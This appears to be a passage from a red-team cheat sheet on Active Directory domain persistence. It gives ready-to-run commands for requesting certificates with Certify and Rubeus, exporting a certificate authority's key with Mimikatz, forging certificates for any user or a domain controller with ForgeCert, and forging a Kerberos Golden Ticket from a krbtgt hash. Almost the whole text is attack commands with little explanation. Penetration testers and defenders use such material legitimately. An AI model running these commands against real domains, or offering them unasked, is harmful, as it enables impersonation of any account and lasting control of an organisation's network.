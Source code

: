 

## Domain

### User Certificate

```ps1
# Request a certificate for the User template
.\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User

# Convert the certificate for Rubeus
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request a TGT using the certificate
.\Rubeus.exe asktgt /user:username /certificate:C:\Temp\cert.pfx /password:Passw0rd123!
```

### Golden Certificate

> Require elevated privileges in the Active Directory, or on the ADCS machine

* Export CA as p12 file: `certsrv.msc` > `Right Click` > `Back up CA...`
* Alternative 1: Using Mimikatz you can extract the certificate as PFX/DER 
    ```ps1
    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export
    ```
* Alternative 2: Using SharpDPAPI, then convert the certificate: `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
* [ForgeCert](https://github.com/GhostPack/ForgeCert) - Forge a certificate for any active domain user using the CA certificate
    ```ps1
    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName harry@lab.local --NewCertPath harry.pfx --NewCertPassword Password123
    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@lab.local --NewCertPath dc.pfx --NewCertPassword Password123
    ```
* Finally you can request a TGT using the Certificate
    ```ps1
    Rubeus.exe asktgt /user:ron /certificate:harry.pfx /password:Password123
    ```

### Golden Ticket

> Forge a Golden ticket using Mimikatz

```ps1
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```
